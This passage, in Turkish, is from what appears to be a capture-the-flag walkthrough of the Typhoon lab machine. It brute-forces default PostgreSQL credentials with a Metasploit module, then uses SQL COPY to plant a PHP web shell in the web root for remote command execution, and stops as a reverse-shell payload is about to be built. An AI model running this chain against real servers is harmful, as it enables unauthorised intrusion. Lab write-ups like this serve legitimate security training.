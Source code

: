 ![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/31.png)

Ve mutlu son artık root’um 😊

## 8-) Postgresql

5432 numaralı TCP portunda PostgreSQL DB 9.3.3 – 9.3.5 servisinin çalıştığı görülmektedir. İnternetten bir takım araştırmalarım sonucunda istediğim exploit koduna ulaşamadım. Daha sonra username ve password için brute-force saldırısı yapmak istedim. Bunun için kullanacağımz modül aşağıdadır.

**auxiliary/scanner/postgres/postgres_login**

Yardımcı modülün bizden istediği sadece RHOSTS kısmıdır. Kendisi default username ve default password dosyalarını kendi tanımlamıştır.
 
![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/32.png)

Yukarıdaki resimde de görüldüğü gibi [ **username : postgres , password : postgres** ] olarak bulunmuştur. Veritabanına bağlanmak için kali sanal makinasında bulunan **psql** aracını kullanacağım.
 
![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/33.png)

Yukarıdaki parametreleri açıklamak gerekirse -h hostu , -U ise username ‘ i belirtmek için kullanılmaktadır. Daha sonra sizden parola isteyecektir. Parolayada postgres yazarak login işlemini başarıyla gerçekleştiriyoruz.

**select version();**     komutu ile veritabanının kullandığı version öğrenilebilir.

 ![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/34.png)

Onun dışında veritabanına kullanıcı eklenebilir, eklenen kullanıcıya SUPERUSER yetkisi verilebilir, şemalar ve veritabanları görüntülenebilir. Tabii ki bunların hepsinin yapılması veya daha çok şey yapılması sizin postgresql bilginize bağlıdır.

Amacımız root yetkisiyle sisteme sızmak veya düşük yetkili bir kullanıcı ile sızıp local privilege escalation yapmaktır. O halde başlayalım.
 
![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/35.png)

Yukarıda yazdığım komutları açıklamak gerekirse;

**CREATA TABLE pwn (t TEXT);**  -- pwn adında bir tablo oluşturdum.

**INSERT INTO pwn(t) VALUES (‘<?php @system(“$_GET[cmd]”);?>’);**  -- pwn tablosunun t isimli text’ine basit php kodu ekledim. Bu php kodu bana RCE sağlayacak.

**COPY pwn(t) TO ‘/var/www/html/cmd.php’;**  --  RCE sağlayacak php kodunu /var/www/html dizinine attım.

Şimdi sıra browser’dan ilgili dizine gidip komut çalıştırmaya geldi.

![alt text](https://github.com/muratyesiltepe/typhoon-vm/blob/master/36.png)
 
Yukarıdan da görüldüğü gibi başarılı bir şekilde komut çalıştırılabiliyor. Şimdi buradan reverse bağlantı almamız gerekmektedir. Bunun için msfvenom ile bir yük oluşturacağım. Bu yükü /var/www/html/ dizinine atacağım.
